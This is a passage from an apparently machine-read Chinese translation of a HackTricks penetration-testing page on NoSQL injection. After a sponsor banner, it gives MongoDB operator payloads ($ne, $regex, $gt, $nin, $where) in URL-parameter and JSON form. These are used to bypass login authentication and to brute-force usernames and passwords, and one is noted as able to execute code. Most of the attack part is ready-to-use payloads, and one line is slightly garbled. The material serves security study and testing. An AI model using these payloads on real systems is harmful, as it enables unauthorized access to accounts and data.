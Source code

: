 # NoSQL注入

![](<../.gitbook/assets/image (9) (1) (2).png>)

\
使用[**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks)可以轻松构建和自动化由全球**最先进**的社区工具提供支持的工作流程。\
立即获取访问权限：

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}

<details><summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>

NoSQL数据库提供比传统SQL数据库更宽松的一致性限制。通过减少关系约束和一致性检查，NoSQL数据库通常提供性能和扩展性的优势。然而，即使它们不使用传统的SQL语法，这些数据库仍然有可能受到注入攻击的影响。

## Exploit

在PHP中，您可以通过将发送的参数从_parameter=foo_更改为_parameter\[arrName]=foo_来发送一个数组。

这些漏洞是基于添加一个**运算符**：
```bash
username[$ne]=1$password[$ne]=1 #<Not Equals>
username[$regex]=^adm$password[$ne]=1 #Check a <regular expression>, could be used to brute-force a parameter
username[$regex]=.{25}&pass[$ne]=1 #Use the <regex> to find the length of a value
username[$eq]=admin&password[$ne]=1 #<Equals>
username[$ne]=admin&pass[$lt]=s #<Less than>, Brute-force pass[$lt] to find more users
username[$ne]=admin&pass[$gt]=s #<Greater Than>
username[$nin][admin]=admin&username[$nin][test]=test&pass[$ne]=7 #<Matches non of the values of the array> (not test and not admin)
{ $where: "this.credits == this.debits" }#<IF>, can be used to execute code
```
### 基本身份验证绕过

**使用不等于 ($ne) 或大于 ($gt)**
```bash
#in URL
username[$ne]=toto&password[$ne]=toto
username[$regex]=.*&password[$regex]=.*
username[$exists]=true&password[$exists]=true

#in JSON
{"username": {"$ne": null}, "password": {"$ne": null} }
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"} }
{"username": {"$gt": undefined}, "password": {"$gt": undefined} }
```
### **SQL - Mongo**
